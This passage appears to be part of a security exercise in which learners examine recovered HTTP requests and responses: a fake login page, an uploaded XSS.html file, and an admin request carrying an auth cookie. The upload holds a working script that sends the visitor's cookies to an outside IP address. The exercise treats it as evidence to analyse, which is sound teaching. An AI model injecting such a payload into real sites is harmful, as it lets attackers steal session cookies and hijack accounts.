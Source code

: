      <title>Unauthorized</title>
     <form action="/login" method=POST>
     <input type=hidden name=referer value="/fakesite/">
     <p><label>Username: <input name=user></label>
     <p><label>Password: <input name=pwd type=password></label>
     <p><button type=submit>Sign in</button>
     <p><a href="/register">Register for an account</a>
     </form>
     ```

   - **Questions:** 
      - What status code was returned in this response?
      - According to the response body, what kind of method was used to generate this HTTP response?
     - What sort of information was input to this HTTP request?

   - **Analysis:** Based on the information gathered from the status code and response body, what did the attacker try to do? Were they successful? 

3. The following HTTP request and response were also recovered:

   **HTTP Request 1**

     ```HTTP
     PUT /XSS.html HTTP/1.1
     User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
     Host: www.fakesite.com/blog

     <script type="text/javascript">
     document.location='http://133.7.13.37/cookiestealer.php?c='+document.cookie;
     </script>
     ```

   **HTTP Response 3**

     ```HTTP
     HTTP/1.1 201 Created
     Date: Mon, 05 May 2014 12:28:53 GMT
     Server: Apache/2.2.14 (Win32)
     Content-type: text/html
     Content-length: 30
     Connection: Closed
     ```

   **Questions:** 
      - What type of method was used in the request?
      - What file name was uploaded to the site, according to the request body?

   **Analysis:** 
      - Based on the request method and request body, what do you think happened here? 
      - How did the server respond?

4. The next partial request and header was received by our HTTP server. The data after this log was completely lost:

   **HTTP Response 4**

     ```HTTP
     GET https://www.fakesite.com/admin HTTP/1.1
     Cookie: $Version="1"; AUTH-COOKIE="sdf354s5c1s8e1s"; $Path="/admin"
     ```
